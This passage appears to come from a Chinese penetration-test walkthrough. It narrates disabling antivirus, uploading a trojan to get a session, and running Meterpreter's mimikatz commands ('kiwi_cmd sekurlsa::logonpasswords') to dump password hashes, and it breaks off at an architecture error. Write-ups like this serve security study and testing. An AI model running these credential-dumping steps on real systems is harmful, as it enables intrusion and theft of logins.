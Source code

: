 请原谅我直接在 UI 内部关掉杀毒，之前还写过 python 的加载器，结果虚拟机之前快照重置了，就不再这里浪费时间了：

[![](assets/1711556160-7d953086232d9b2eb2a02eb2319602f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806205144-ff34f14a-3457-1.png)

经过一点点时间，上传木马执行上线：

[![](assets/1711556160-e04565feacd52f8f333aa6494da5b72f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806205107-e906fc24-3457-1.png)

转储密码哈希：

```plain
load mimikatz
kiwi_cmd sekurlsa::logonpasswords
```

报错说 32 位的不能访问 64 位的进程：
